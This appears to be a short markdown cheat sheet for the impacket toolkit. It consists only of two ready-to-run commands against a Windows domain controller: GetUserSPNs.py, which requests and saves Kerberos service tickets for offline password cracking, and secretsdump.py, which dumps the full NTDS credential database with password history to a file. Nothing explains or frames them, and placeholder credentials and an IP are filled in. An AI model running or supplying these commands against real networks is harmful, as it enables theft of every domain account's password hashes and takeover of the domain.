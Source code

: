 ## impacket


### GetUserSPNs.py

```
GetUserSPNs.py -dc-ip 192.168.1.1 contoso.local/jdupond:'P@$$w0rd' -save
```


### secretsdump.py

```
secretsdump.py -just-dc -user-status -history contoso.local/Administrator:'P@$$w0rd'@192.168.1.1 | tee secretsdump_dump_ntds_full_192.168.1.1.txt
```



